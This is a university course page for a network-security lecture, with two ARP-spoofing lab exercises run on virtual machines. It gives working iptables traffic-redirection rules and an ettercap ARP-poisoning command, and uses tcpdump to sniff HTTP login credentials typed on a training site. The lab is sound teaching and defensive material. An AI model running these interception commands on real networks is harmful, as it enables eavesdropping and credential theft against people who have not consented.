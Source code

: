 ```yaml
---
layout: default
course_number: CS497
title: "Lecture 5: Computer Networking"
---
```


# Lecture 5

- Network Security
- Basic Internet technology
- TCP/IP
- Network models and ARP security
- Spoofing, sniffing, session hijacking
- Denial-of-service botnets

### Reading 

- Introduction to Computer Security: Chapter 5

### Slides

- [Computer Networking](Ch05-NetworkModelsARP.pdf)
- [TCP/IP](Ch05-NetworksTCP-IP.pdf)

### In Class Exercise *ARP spoofing* (part 1)
- Startup VirtualBox and create three (3) virtual machines. 
- Ensuring that MAC addresses of all virtual-machines are unique
   - Base on the VirtualBox version you are using: the options are either `Reinitialize the MAC address of all network cards` or `Generate new MAC addresses for all network adapters`.
- Change the network settings of each virtual machine to `Bridged Adapter`. 
- One is used to host applications (server) and other virtual machines are for the victim and the attacker.
- Once the network setup is done, run ```ifconfig``` on all VMs and record the IP address for each VM. Take a screenshot.
- **Normal Scenario:**
  - Create a folder in *Server* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testserver``` with some text content. Take a screenshot.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command 
  ```python -m SimpleHTTPServer```
  - Open a browser session in ```Victim’s``` VM and enter ```http://<server_ip_address>:8000/test.html``` in the URL bar. 
  - Observe that we get the expected response. Take a screenshot.
- **Victim to Attacker Link Scenario:**
  - Execute the following commands in ```Victim's``` VM and take a screenshot.
  ```
  sudo iptables -t nat -A OUTPUT -p tcp --dport 80 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 443 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination attacker_ip_address
  ```
  - Create a folder in *Attacker* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testterver``` with some text content. Take a screenshot.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command ```python -m SimpleHTTPServer```
  - In ```Victim’s``` VM refresh the browser and observe that we get the expected response. Take a screenshot.
- **Attacker to Server Link Scenario:**
  - Execute the following commands in ```Attacker's``` VM and take a screenshot.
  ```
  sudo sysctl -w net.ipv4.ip_forward=1
  sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A POSTROUTING -j MASQUERADE
  ```
  - Once above rules are in place, refresh the ```Victim’s``` browser and observe that we are getting the original response from the ```Server```. Take a screenshot. However, now all the traffic is routed through the ```Attacker’s``` network interface. 
  - Open up Wireshark in ```Attacker’s``` virtual machine (you might need to run Wireshark with sudo in order to get the interface list, if group permissions are not properly set). 
  - Select *enp0s3* as the interface and capture communication. *Interface name may vary.* 
  - Observe network traffic as you refresh the ```Victim's``` browser. Take a screenshot.
- To reset the iptables: ```sudo iptables -F```
- [iptables man pages](https://linux.die.net/man/8/iptables)

### In Class Exercise *ARP spoofing* (part 2)
- In this exercise we will be using ettercap to perform ARP poisoning. Ettercap is a comprehensive suite for man in the middle attacks.
- You can install ettercap on your VM bu using -```sudo apt-get install ettercap-text-only```
- The goal of the second part of the lab is to sniff unsecured user authentication and to become familiar with ```tcpdump``` and ```ettercap```. ```tcpdump``` is a command lline network analyzer alternative to Wireshark. In this lab, we will only need the attacker and the victim (client) VM's to be running.
- ```ip r | grep default``` will provide you with indormation about the default gateway. 
- Extensive information aregarding ```tcpdump``` can be found [here](https://www.tcpdump.org/manpages/tcpdump.1.html) or by using the terminal ```man tcpdump```.

- **Steps**
1. From the attacker's VM, open a terminal window and start monitoring any ARP request and replies. Use the following command: ```sudo tcpdump -n -i <interface_name> arp```. Depending on the network traffic, you might begin see a few ARP requests for other machines.
2. Still from the attacker's VM, open a second terminal and start monitoring traffic between our victim and the rest of the Internet. Use the command: ```sudo tcpdump -n -i <interface_name> tcp and port 80 and host <victim_ip_address> -s0 -A -c 1000```. 
3. In a third terminal window enter the following command ```sudo ettercap -T -M arp:oneway /<victim_ip_address>// /<router_ip_address>//```. This will ask ettercap to redirect packets from victim to server through your router first. It will then replay those packets on to the correct MAC address so that neither host notices that ettercap is stealing these packets.
4. On the Victim's VM open up firefox and navigate to [http://aavtrain.com/](http://aavtrain.com/).
5. Login to [http://aavtrain.com/](http://aavtrain.com/) with **fake** username and password. Record what you have used. 
6. Review the output from the second terminal on the attacker's VM. Can you find the sniffed HTTP username and password used to login into the website? If you cannot find the username and the password in the payload, feel free to use wireshark to point you to the right packet. Take a screenshots of the compromised data. 
7. Back to the victims VM's, using the browser navigate to [http://www.facebook.com](http://www.facebook.com) and try to sniff the user login information. Explain what happens and provide a brief explanation. 
8. Shutdown ettercap by pressing 'q'.

### Report 
- Screenshots from both parts of the lab along with any information you would like to share. 
- Awnser the following:
1. What were two things you learned from this lab?
2. Research and submit a link to a tool that we can install on our Linux machine to detect ARP poisoning.
